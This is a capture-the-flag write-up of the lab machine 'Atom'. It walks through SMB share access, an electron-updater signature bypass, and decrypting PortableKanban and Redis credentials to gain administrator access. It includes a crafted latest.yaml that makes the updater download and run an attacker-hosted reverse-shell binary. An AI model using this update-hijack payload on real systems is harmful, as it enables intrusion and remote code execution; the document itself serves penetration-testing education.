# Atom

## Gaining Access

Nmap scan:



There's a `redis` server running on the machine, and also WinRM for whatever reason. SMB Shares might be accessible on this server.

### SMB Shares

Using `smbmap`, there is one share that is readable even without credentials.



The Software\_Updates one is new. We can connect to it and see what are the files present.



The PDF contained some useful information:



We can place an update within this share's client folders, and then a user would run it. This is probably the way to gain a reverse shell.

### Electron

When checking the web portal, we see that it's a regular corporate website.



There was a download button on the page, presumably to download the program used for this application. This would make us download a .exe file.



We can actually open .exe files to find out what is within it.



When viewing the plugins directory, we would find an app.7z file which we can open to reveal the resources.



We can take a look at the resources file to view the source code and stuff, and there we find more hints that this is a Electron application.



We can dive further into the .asar file using `asar`.



Within the main.js file, we can find that `electron-updater` was imported within this application.



### Signature Bypass

Searching for exploits for electron-updater led me to this website:



In short, it's possible to bypass the signature checks that determine if an electron update is legitimate or not. This is done through altering the `latest.yaml` file. So, by bypassing this signature check, the updater would execute any malicious code we use.

This is in line with the information on the PDF we found earlier, telling us to place updates within the share for it to be executed. We can follow the PoC provided.

First, we can generate a quick reverse shell binary with `msfvenom`.



Afterwards, we need to change the name of this binary to have an `'` character within it. I named mine `v'rev.exe`. Then, we need to take the sha512 hash of this file and base64 encode it.



Then, we can create the `latest.yaml` file to have a custom HTTP path for the update with the hash value. Afterwards, we can host the binary on a Python HTTP server.

```yaml
version: 2.2.3
files:
  - url: http://10.10.16.9/r'ev.exe
    sha512: <hash value>
    size: 7168     
path: http://10.10.16.9/r'ev.exe
sha512: <hash value>
releaseDate: '2022-03-14T11:17:02.627Z'
```

Upon creation, we would need to put this YAML file within the client directory of the share we accessed earlier.



After a while, our HTTP server would get a hit and our listener port would catch a reverse shell.





## Privilege Escalation

### Kanban Redis Creds

Within the user's Downloads folder, we can find a PortableKanban instance.



Within the folder, we can find an encrypted password for the `redis` instance on the machine.



Quick googling led me to an exploit, which allows for us to decrypt the passwords using DES.



I used CyberChef to decrypt the password using the key and IV extracted from the exploit.



After finding this password, we can use `redis-cli` to login to the redis instance.

### Redis Creds

Logging in:



We can check all the keys present on this machine:



The user key with some kind of GUID was the first I checked. We can do so with `get <name>`. This revealed another encrypted password for the Administrator.



We can decrypt this using the same CyberChef configurations.



Then, we can use `evil-winrm` to log in as the administrator.


